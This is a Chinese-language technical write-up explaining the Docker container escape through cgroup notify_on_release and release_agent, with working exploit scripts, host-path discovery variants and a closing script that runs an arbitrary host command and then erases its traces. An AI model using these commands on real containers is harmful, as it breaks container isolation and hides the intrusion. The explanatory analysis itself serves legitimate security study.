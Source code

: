 # notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况

![](media/16330951806464/16334143029012.jpg)
可以看到cgroup提供了很多子系统包括cpu、devices、blkio等
![](media/16330951806464/16334144772530.jpg)
以memory子系统为例看下每个子系统包含哪些文件
![](media/16330951806464/16334162215100.jpg)

其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理
1. 需要一个可写的cgroup,至于用cgroup的哪个子系统也就是-o参数应该是都可以的，直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
  
   如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以devicemapper为例读取mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/[id]/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:
     ```
   host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
    ```
  
3. 清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是进程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的
  
## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  ![](media/16330951806464/16336741095529.jpg)
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径

![](media/16330951806464/16336742339526.jpg)
通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 清理痕迹
1. 删除创建的子cgroup
2. 取消/tmp下的cgroup挂载
3. 删除/tmp/cgrp/空目录
4. 删除/cmd文件
5. 删除/output文件
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "$1 > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
sleep 2
cat /output
rmdir /tmp/cgrp/x && umount /tmp/cgrp/ && rm -rf /output /cmd /tmp/cgrp
```
![](media/16330951806464/16337507086945.jpg)


## 参考文档
1. [红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)
2. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
3. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
4. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
5. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
6. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)